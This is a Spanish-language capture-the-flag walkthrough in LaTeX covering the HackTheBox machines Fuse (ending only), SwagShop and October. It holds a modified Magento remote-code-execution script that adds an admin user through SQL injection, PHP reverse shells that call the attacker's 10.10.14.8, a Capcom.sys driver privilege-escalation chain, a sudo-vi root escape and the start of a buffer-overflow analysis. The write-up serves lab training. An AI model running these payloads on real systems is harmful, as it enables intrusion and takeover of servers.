\FunctionTok{whoami}\NormalTok{ /priv}
\FunctionTok{whoami}\NormalTok{ /all}
\end{Highlighting}
\end{Shaded}

Vemos quel usuario tiene un privilegio \textbf{SeLoadDriverPrivilege}. Miramos en la web si se puede escalar privilegios con
esto.

En firefox buscamos con \emph{SeLoadDriverPrivilege exploit} y caemos en la web de \href{https://www.tarlogic.com/blog/abusing-seloaddriverprivilege-for-privilege-escalation/}{tarlogic}.

Aqui S4vitar nos recomienda trabajar desde una maquina Windows con Visual studio 19 installado para buildear el exploit.

\hypertarget{crando-el-exploit-loaddriver.exe-desde-la-maquina-windows}{%
\subsubsection*{Crando el exploit LoadDriver.exe desde la maquina windows}\label{crando-el-exploit-loaddriver.exe-desde-la-maquina-windows}}
\addcontentsline{toc}{subsubsection}{Crando el exploit LoadDriver.exe desde la maquina windows}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  creamos una carpeta de trabajo llamado fuse
\item
  desde visual studio creamos un nuevo proyecto llamado LoadDriver de typo Console App
\item
  copiamos el contenido del fichero \href{https://github.com/TarlogicSecurity/EoPLoadDriver/blob/master/eoploaddriver.cpp}{eoploaddriver} en el ficher \emph{Source Files/LoadDriver.cpp} del proyecto.
\item
  eliminamos el primer include que nos da un error \emph{\#include "stdafx.h} y que no es necessario
\item
  en visual studio cambiamos el Debug a Realease y le ponemos x64

  \begin{figure}
   \includegraphics[width=0.9\linewidth]{images/Fuse-VS2019} \caption{Build LoadDriver}\label{fig:unnamed-chunk-52}
   \end{figure}
\item
  en el menu le damos a Build -\textgreater{} Rebuild solution
\end{enumerate}

Esto nos cree un fichero LoadDriver.exe que copiamos en una carpeta compiledbinaries.

\hypertarget{recuperamos-el-capcom.sys}{%
\subsubsection*{Recuperamos el capcom.sys}\label{recuperamos-el-capcom.sys}}
\addcontentsline{toc}{subsubsection}{Recuperamos el capcom.sys}

En la web de tarlogic nos dice que necessitamos un fichero llamado \emph{capcom.sys} lo descargamos desde la \href{https://github.com/FuzzySecurity/Capcom-Rootkit/raw/master/Driver/Capcom.sys}{web} y la copiamos
en la carpeta compiledbinaries.

\hypertarget{creamos-el-exploitcapcom.exe}{%
\subsubsection*{Creamos el ExploitCapcom.exe}\label{creamos-el-exploitcapcom.exe}}
\addcontentsline{toc}{subsubsection}{Creamos el ExploitCapcom.exe}

En este punto nos tenemos que descargar el fichero \textbf{ExploitCapcom}. Este fichero se tiene que compilar desde Visual Studio.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  descargamos el proyecto

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{git}\NormalTok{ clone https://github.com/tandasat/ExploitCapcom}
\end{Highlighting}
\end{Shaded}
\item
  desde Visual Studio le damos a File -\textgreater{} Open -\textgreater{} Project/Solution
\item
  buscamos el .sln y le damos a open
\end{enumerate}

Si abrimos el fichero ExploitCapcom.cpp, la idea aqui seria de modificar el script para que ejecute un binario malicioso creado con \emph{msfvenom}.
Para esto necesitamos modificar la funccion \textbf{launchSell()} del ExploitCapcom.cpp

En la web de \href{https://github.com/api0cradle/UltimateAppLockerByPassList}{AppLockerByPassList}, buscamos una routa windows interesante donde se puede trabajar
sin problemas, en este caso seria la \texttt{C:\textbackslash{}Windows\textbackslash{}System32\textbackslash{}spool\textbackslash{}drivers\textbackslash{}color}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Modificamos el script

\begin{Shaded}
\begin{Highlighting}[]
\AttributeTok{static} \DataTypeTok{bool}\NormalTok{ launchSell()}
\NormalTok{\{}
\NormalTok{    TCHAR CommandLine[] = TEXT(}\StringTok{"C:}\SpecialCharTok{\textbackslash{}\textbackslash{}}\StringTok{Windows}\SpecialCharTok{\textbackslash{}\textbackslash{}}\StringTok{System32}\SpecialCharTok{\textbackslash{}\textbackslash{}}\StringTok{spool}\SpecialCharTok{\textbackslash{}\textbackslash{}}\StringTok{drivers}\SpecialCharTok{\textbackslash{}\textbackslash{}}\StringTok{color}\SpecialCharTok{\textbackslash{}\textbackslash{}}\StringTok{reverse.exe"}\NormalTok{);}
\NormalTok{\}}
\end{Highlighting}
\end{Shaded}
\item
  Buildeamos el proyecto dandole al menu Build -\textgreater{} Rebuild solution
\item
  copiamos el fichero ExploitCapcom.exe en la carpeta compiledbinaries
\end{enumerate}

\hypertarget{passamos-los-ficheros-a-la-maquina-victima}{%
\subsubsection*{Passamos los ficheros a la maquina victima}\label{passamos-los-ficheros-a-la-maquina-victima}}
\addcontentsline{toc}{subsubsection}{Passamos los ficheros a la maquina victima}

En la carpeta \texttt{compiledbinaries} tenemos nuestros 3 ficheros necesarios para el exploit.
- Capcom.sys
- ExploitCapcom.exe
- LoadDriver.exe

En esta carpeta, montamos un servidor web con python

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ -m http.server}
\end{Highlighting}
\end{Shaded}

Desde la maquina de atacante, descargamos estos ficheros

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{wget}\NormalTok{ http://192.168.1.14:8000/Capcom.sys}
\FunctionTok{wget}\NormalTok{ http://192.168.1.14:8000/ExploitCapcom.exe}
\FunctionTok{wget}\NormalTok{ http://192.168.1.14:8000/LoadDriver.exe}
\end{Highlighting}
\end{Shaded}

Creamos el reverse.exe con msfvenom

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{msfvenom}\NormalTok{ -p windows/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 -f exe -o reverse.exe}
\end{Highlighting}
\end{Shaded}

Desde la consola Evil-WinRM de la maquina victima, subimos todo los ficheros

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ C:\textbackslash{}Windows\textbackslash{}Temp}
\ExtensionTok{upload}\NormalTok{ Capcom.sys}
\ExtensionTok{upload}\NormalTok{ ExploitCapcom.exe}
\ExtensionTok{upload}\NormalTok{ LoadDriver.exe}
\BuiltInTok{cd}\NormalTok{ C:\textbackslash{}Windows\textbackslash{}System32\textbackslash{}spool\textbackslash{}drivers\textbackslash{}color}
\ExtensionTok{upload}\NormalTok{ reverse.exe}
\end{Highlighting}
\end{Shaded}

\hypertarget{lanzamos-el-exploit}{%
\subsubsection*{Lanzamos el exploit}\label{lanzamos-el-exploit}}
\addcontentsline{toc}{subsubsection}{Lanzamos el exploit}

En la maquina de atacante nos ponemos en escucha en el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rlwrap}\NormalTok{ nc -nlvp 443}
\end{Highlighting}
\end{Shaded}

En la maquina victima, lanzamos el exploit

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ C:\textbackslash{}Windows\textbackslash{}Temp}
\ExtensionTok{C}\NormalTok{:\textbackslash{}Windows\textbackslash{}Temp\textbackslash{}LoadDriver.exe System\textbackslash{}CurrentControlSet\textbackslash{}savishell C:\textbackslash{}Windows\textbackslash{}Temp\textbackslash{}Capcom.sys}
\ExtensionTok{C}\NormalTok{:\textbackslash{}Windows\textbackslash{}Temp\textbackslash{}ExploitCapcom.exe}
\end{Highlighting}
\end{Shaded}

La reverse shell nos a funccionado y con \texttt{whoami} vemos que ya somos nt authority\system y podemos ver la flag.

\hypertarget{swagshop}{%
\chapter*{SwagShop}\label{swagshop}}
\addcontentsline{toc}{chapter}{SwagShop}

\hypertarget{introduccion-21}{%
\section*{Introduccion}\label{introduccion-21}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 14/08/2021 se llama SwagShop.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=Hoionj3rnf8}{\includegraphics{https://img.youtube.com/vi/Hoionj3rnf8/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-21}{%
\section*{Enumeracion}\label{enumeracion-21}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-21}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-21}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-21}{%
\subsubsection*{Ping}\label{ping-21}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.140}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina Linux

\hypertarget{nmap-21}{%
\subsubsection*{Nmap}\label{nmap-21}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.140}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.140 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p22,80 10.10.10.140 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
22 & ssh & Conneccion directa & usuario y contraseña\tabularnewline
80 & http & Web, Fuzzing &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analyzando-la-web-7}{%
\subsection*{Analyzando la web}\label{analyzando-la-web-7}}
\addcontentsline{toc}{subsection}{Analyzando la web}

\hypertarget{whatweb-15}{%
\subsubsection*{Whatweb}\label{whatweb-15}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.140}
\end{Highlighting}
\end{Shaded}

Vemos que estamos en frente de una maquina Linux servido por un Apache 2.4.18 con un dominio \textbf{swagshop.htb}.
Vemos que hay un error porque la pagina nos redirige automaticamente al dominio y da un error.
Añadimos el dominio a nuestro \texttt{/etc/hosts} y volmemos a lanzar el whatweb.

Ahora vemos que estamos en frente de un Magento.

\hypertarget{checkear-la-web-del-puerto-80-1}{%
\subsubsection*{Checkear la web del puerto 80}\label{checkear-la-web-del-puerto-80-1}}
\addcontentsline{toc}{subsubsection}{Checkear la web del puerto 80}

Con firefox navigamos en la web para ver lo que es. Vemos una web donde se puede comprar productos. Vemos que hay
un panel de busqueda. Intentamos ver si es vulnerable a un html injeccion o un XSS pero no es el caso.

Nos damos cuenta que la URL es \texttt{http://swagshop.htb/index.php/}. La ultima bara nos hace pensar que puede ser un directorio.
Vamos a fuzzear la web.

\hypertarget{fuzzing-con-wfuzz-8}{%
\subsubsection*{Fuzzing con WFuzz}\label{fuzzing-con-wfuzz-8}}
\addcontentsline{toc}{subsubsection}{Fuzzing con WFuzz}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.140/index.php/FUZZ}
\end{Highlighting}
\end{Shaded}

Encontramos unas rutas:

\begin{itemize}
\tightlist
\item
  admin
\item
  catalog
\item
  home
\item
  contacts
\item
  home
\end{itemize}

Miramos lo que hay en la routa \texttt{http://10.10.10.140/index.php/admin}

Checkeamos en la web si existen credenciales por defecto para Magento pero no funcciona. Miramos si existe algo interesante en \textbf{exploit-db}

\hypertarget{vulnerability-assessment-8}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-8}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{checkeando-exploit-para-magento}{%
\subsection*{Checkeando exploit para Magento}\label{checkeando-exploit-para-magento}}
\addcontentsline{toc}{subsection}{Checkeando exploit para Magento}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ magento}
\end{Highlighting}
\end{Shaded}

Vemos un exploit que nos llama la atencion -\textgreater{} Magento eCommerce - Remote Code Execution

Nos copiamos el script en el directorio actual de trabajo y lo analyzamos

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ -m 37977}
\FunctionTok{mv}\NormalTok{ 37977.py magento_rce.py}
\ExtensionTok{vi}\NormalTok{ magento_rce.py}
\end{Highlighting}
\end{Shaded}

Modificamos el script para que funccione

\begin{Shaded}
\begin{Highlighting}[]
\ImportTok{import}\NormalTok{ requests}
\ImportTok{import}\NormalTok{ base64}
\ImportTok{import}\NormalTok{ sys}

\NormalTok{target }\OperatorTok{=} \StringTok{"http://10.10.10.140/index.php"}

\ControlFlowTok{if} \KeywordTok{not}\NormalTok{ target.startswith(}\StringTok{"http"}\NormalTok{):}
\NormalTok{    target }\OperatorTok{=} \StringTok{"http://"} \OperatorTok{+}\NormalTok{ target}

\ControlFlowTok{if}\NormalTok{ target.endswith(}\StringTok{"/"}\NormalTok{):}
\NormalTok{    target }\OperatorTok{=}\NormalTok{ target[:}\OperatorTok{-}\DecValTok{1}\NormalTok{]}

\NormalTok{target_url }\OperatorTok{=}\NormalTok{ target }\OperatorTok{+} \StringTok{"/admin/Cms_Wysiwyg/directive/index/"}

\NormalTok{q}\OperatorTok{=}\StringTok{"""}
\StringTok{SET @SALT = 'rp';}
\StringTok{SET @PASS = CONCAT(MD5(CONCAT( @SALT , '}\SpecialCharTok{\{password\}}\StringTok{') ), CONCAT(':', @SALT ));}
\StringTok{SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;}
\StringTok{INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','}\SpecialCharTok{\{username\}}\StringTok{',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());}
\StringTok{INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '}\SpecialCharTok{\{username\}}\StringTok{'),'Firstname');}
\StringTok{"""}


\NormalTok{query }\OperatorTok{=}\NormalTok{ q.replace(}\StringTok{"}\CharTok{\textbackslash{}n}\StringTok{"}\NormalTok{, }\StringTok{""}\NormalTok{).}\BuiltInTok{format}\NormalTok{(username}\OperatorTok{=}\StringTok{"forme"}\NormalTok{, password}\OperatorTok{=}\StringTok{"forme"}\NormalTok{)}
\NormalTok{pfilter }\OperatorTok{=} \StringTok{"popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);}\SpecialCharTok{\{0\}}\StringTok{"}\NormalTok{.}\BuiltInTok{format}\NormalTok{(query)}

\CommentTok{# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is\{\{block type=Adminhtml/report_search_grid output=getCsvFile\}\}}
\NormalTok{r }\OperatorTok{=}\NormalTok{ requests.post(target_url,}
\NormalTok{                  data}\OperatorTok{=}\NormalTok{\{}\StringTok{"___directive"}\NormalTok{: }\StringTok{"e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ"}\NormalTok{,}
                        \StringTok{"filter"}\NormalTok{: base64.b64encode(pfilter),}
                        \StringTok{"forwarded"}\NormalTok{: }\DecValTok{1}\NormalTok{\})}
\ControlFlowTok{if}\NormalTok{ r.ok:}
    \BuiltInTok{print} \StringTok{"WORKED"}
    \BuiltInTok{print} \StringTok{"Check }\SpecialCharTok{\{0\}}\StringTok{/admin with creds forme:forme"}\NormalTok{.}\BuiltInTok{format}\NormalTok{(target)}
\ControlFlowTok{else}\NormalTok{:}
    \BuiltInTok{print} \StringTok{"DID NOT WORK"}
\end{Highlighting}
\end{Shaded}

Lanzamos el script con el commando \texttt{python3\ magento\_rce.py} y nos dice que el script a funccionado y a creado un usuario forme con la contraseña forme.

Lo miramos desde la web y entramos en Admin panel de Magento.

\hypertarget{vuln-exploit-gaining-access-8}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-8}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{ganando-accesso-desde-magento}{%
\subsection*{Ganando accesso desde Magento}\label{ganando-accesso-desde-magento}}
\addcontentsline{toc}{subsection}{Ganando accesso desde Magento}

Para ganar acceso desde un panel Admin de Magento siempre va de la misma forma.

Nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}

Desde el panel de configuration de Magento

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\tightlist
\item
  Vamos al menu \texttt{System\ -\textgreater{}\ Configuration}.
\item
  En el Menu de izquierda vamos a \texttt{ADVANCED\ -\textgreater{}\ Developer}
\item
  En Template Settings Habilitamos los Symlinks y damos al boton \texttt{Save\ Config}
\item
  En el menu principal, le damos a \texttt{catalog\ -\textgreater{}\ Manage\ Categories}
\end{enumerate}

Aqui tenemos que crear una reverse shell \texttt{vi\ shell.php.png}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{<?php}
    \FunctionTok{system}\OtherTok{(}\StringTok{"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f"}\OtherTok{);}
\KeywordTok{?>}
\end{Highlighting}
\end{Shaded}

De esta manera, la podemos subir al magento en la parte \textbf{Image}, en Name ponemos \textbf{test} y damos al boton Save Category
Si hacemos hovering por encima del link de la imagen vemos la routa siguiente

\texttt{http://swagshop.htb/media/catalog/category/shell.php.png}

Aqui creamos un nuevo Newsletter Template.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  En el menu Pricipal damos a \texttt{Newsletter\ -\textgreater{}\ Newsletter\ Templates}
\item
  damos al boton Add Newsletter Template
\item
  En el formulario le ponemos

  \begin{itemize}
  \tightlist
  \item
    Template Name: \texttt{Test}
  \item
    Template Subject: \texttt{Test}
  \item
    Template Content: \texttt{\{\{block\ type="core/template"\ template="../media/catalog/category/shell.php.png"\}\}}
  \end{itemize}
\item
  le damos al boton Save Template, pinchamos al template creado y le damos a preview template
\end{enumerate}

Aqui no passa nada, lo que quiere decir que la profundida del path traversal no es buena. Intentamos con 2 \texttt{../../media} hasta llegar
a la buena profundidad que seria \texttt{../../../../../../media/catalog/category/shell.php.png} y hemos ganado acceso a la maquina victima.

\hypertarget{tratamiento-de-la-tty-11}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty-11}}
\addcontentsline{toc}{subsection}{Tratamiento de la TTY}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\FunctionTok{stty}\NormalTok{ raw -echo}\KeywordTok{;} \BuiltInTok{fg}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ reset}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ xterm}
\BuiltInTok{export} \VariableTok{TERM=}\NormalTok{xterm}
\BuiltInTok{export} \VariableTok{SHELL=}\NormalTok{bash}

\FunctionTok{stty}\NormalTok{ -a}

\FunctionTok{stty}\NormalTok{ rows }\OperatorTok{<}\NormalTok{rownb}\OperatorTok{>}\NormalTok{ columns }\OperatorTok{<}\NormalTok{colnb}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

Dandole a \texttt{cd\ /home} vemos que hay un usuario haris que contiene el \textbf{user.txt} y podemos ver la flag

\hypertarget{privilege-escalation-7}{%
\section*{Privilege Escalation}\label{privilege-escalation-7}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-16}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-16}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /root}
\OperatorTok{>} \ExtensionTok{Permission}\NormalTok{ denied}
\FunctionTok{id}
\FunctionTok{sudo}\NormalTok{ -l}
\end{Highlighting}
\end{Shaded}

Vemos que podemos lanzar \texttt{/usr/bin/vi} como root sin proporcionar contraseña.

Como con vi se puede settear nuevas variables, es muy facil rootear esta maquina

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{sudo}\NormalTok{ -u root vi /var/www/html/EEEEEE}
\NormalTok{:}\VariableTok{set_shell=}\NormalTok{/bin/bash}
\NormalTok{:}\ExtensionTok{shell}
\end{Highlighting}
\end{Shaded}

Ya tenemos una consola como root y podemos visualizar la flag

\hypertarget{october}{%
\chapter*{October}\label{october}}
\addcontentsline{toc}{chapter}{October}

\hypertarget{introduccion-22}{%
\section*{Introduccion}\label{introduccion-22}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 14/08/2021 se llama October.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=6vjzcoBA5ps}{\includegraphics{https://img.youtube.com/vi/6vjzcoBA5ps/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-22}{%
\section*{Enumeracion}\label{enumeracion-22}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-22}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-22}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-22}{%
\subsubsection*{Ping}\label{ping-22}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.16}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina Linux

\hypertarget{nmap-22}{%
\subsubsection*{Nmap}\label{nmap-22}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.16}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.16 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p22,80 10.10.10.16 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
22 & ssh & Conneccion directa & usuario y contraseña\tabularnewline
80 & http & Web, Fuzzing &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analyzando-la-web-8}{%
\subsection*{Analyzando la web}\label{analyzando-la-web-8}}
\addcontentsline{toc}{subsection}{Analyzando la web}

\hypertarget{whatweb-16}{%
\subsubsection*{Whatweb}\label{whatweb-16}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.16}
\end{Highlighting}
\end{Shaded}

Vemos que estamos en frente de una maquina Linux servido por un Apache 2.4.7 con un php 5.5.9-1.
Vemos que estamos en frente de un October CMS - Vanilla.

\hypertarget{checkear-la-web-del-puerto-80-2}{%
\subsubsection*{Checkear la web del puerto 80}\label{checkear-la-web-del-puerto-80-2}}
\addcontentsline{toc}{subsubsection}{Checkear la web del puerto 80}

Con firefox navigamos en la web para ver lo que es. El Wappalyzer nos confirma que estamos contra un October CMS y Laravel.
Como es un gestor de contenido buscamos en google la routa del admin panel y vemos que esta en \texttt{/backend}.

\hypertarget{vulnerability-assessment-9}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-9}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{checkeando-vulnerabilidades-para-october-cms}{%
\subsection*{Checkeando vulnerabilidades para October CMS}\label{checkeando-vulnerabilidades-para-october-cms}}
\addcontentsline{toc}{subsection}{Checkeando vulnerabilidades para October CMS}

En el panel de login, probamos \texttt{admin-admin} y entramos en el panel de administracion.

;)

\hypertarget{vuln-exploit-gaining-access-9}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-9}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{ganando-accesso-desde-october-cms}{%
\subsection*{Ganando accesso desde October CMS}\label{ganando-accesso-desde-october-cms}}
\addcontentsline{toc}{subsection}{Ganando accesso desde October CMS}

Navigando en la web vemos que hay un fichero .php5 y un boton que nos lleva al fichero

decidimos crearnos un fichero \texttt{.php} y subirlo

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{vi}\NormalTok{ shell.php5}
\end{Highlighting}
\end{Shaded}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{<?php}
    \FunctionTok{system}\OtherTok{(}\StringTok{"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f"}\OtherTok{);}
\KeywordTok{?>}
\end{Highlighting}
\end{Shaded}

Nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}

y subimos el archivo pulsando el boton upload y con el link que nos da October vamos a la pagina creada.
Vemos que hemos ganado accesso a la maquina victima.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami} 

\OperatorTok{>}\ExtensionTok{www-data}
\end{Highlighting}
\end{Shaded}

\hypertarget{tratamiento-de-la-tty-12}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty-12}}
\addcontentsline{toc}{subsection}{Tratamiento de la TTY}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\FunctionTok{stty}\NormalTok{ raw -echo}\KeywordTok{;} \BuiltInTok{fg}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ reset}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ xterm}
\BuiltInTok{export} \VariableTok{TERM=}\NormalTok{xterm}
\BuiltInTok{export} \VariableTok{SHELL=}\NormalTok{bash}

\FunctionTok{stty}\NormalTok{ -a}

\FunctionTok{stty}\NormalTok{ rows }\OperatorTok{<}\NormalTok{rownb}\OperatorTok{>}\NormalTok{ columns }\OperatorTok{<}\NormalTok{colnb}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

Dandole a \texttt{cd\ /home} vemos que hay un usuario harry que contiene el \textbf{user.txt} y podemos ver la flag

\hypertarget{privilege-escalation-8}{%
\section*{Privilege Escalation}\label{privilege-escalation-8}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-17}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-17}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /root}
\OperatorTok{>} \ExtensionTok{Permission}\NormalTok{ denied}
\FunctionTok{id}
\FunctionTok{sudo}\NormalTok{ -l}
\FunctionTok{uname}\NormalTok{ -a}

\FunctionTok{find}\NormalTok{ \textbackslash{}-perm -4000 }\OperatorTok{2>}\NormalTok{/dev/null}
\end{Highlighting}
\end{Shaded}

Aqui vemos un binario interesante \texttt{./usr/local/bin/ovrflw}

Lanzamos el binario y vemos que nos pide un input string.

\hypertarget{bufferoverflow-1}{%
\subsection*{Bufferoverflow}\label{bufferoverflow-1}}
\addcontentsline{toc}{subsection}{Bufferoverflow}

\hypertarget{checkamos-si-es-un-bufferoverflow}{%
\subsubsection*{Checkamos si es un bufferoverflow}\label{checkamos-si-es-un-bufferoverflow}}
\addcontentsline{toc}{subsubsection}{Checkamos si es un bufferoverflow}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{ovrflw}\NormalTok{ AAAAAA}
\ExtensionTok{ovrflw}\NormalTok{ EEEEEEEEEEEEEEE}
\FunctionTok{which}\NormalTok{ python}

\ExtensionTok{ovrflw} \VariableTok{$(}\ExtensionTok{python}\NormalTok{ -c }\StringTok{'print "A"*500'}\VariableTok{)}
\end{Highlighting}
\end{Shaded}

Vemos que hay un \textbf{segmentation fault} como error, lo que nos dice que este binario es vulnerable a un Bufferoverflow.

\hypertarget{installamos-peda-en-la-maquina-victima}{%
\subsubsection*{Installamos Peda en la maquina victima}\label{installamos-peda-en-la-maquina-victima}}
\addcontentsline{toc}{subsubsection}{Installamos Peda en la maquina victima}

Installamos peda en la maquina victima:

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /tmp}
\FunctionTok{git}\NormalTok{ clone https://github.com/longld/peda.git}
\BuiltInTok{export} \VariableTok{HOME=}\NormalTok{/tmp}
\BuiltInTok{echo} \StringTok{"source ~/peda/peda.py"} \OperatorTok{>>}\NormalTok{ ~/.gdbinit}
\end{Highlighting}
\end{Shaded}

\hypertarget{analizamos-los-registros-con-peda}{%
\subsubsection*{Analizamos los registros con peda}\label{analizamos-los-registros-con-peda}}
\addcontentsline{toc}{subsubsection}{Analizamos los registros con peda}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{gdb}\NormalTok{ ovrflw}
\OperatorTok{>} \ExtensionTok{r}
\OperatorTok{>} \ExtensionTok{r}\NormalTok{ AAAA}
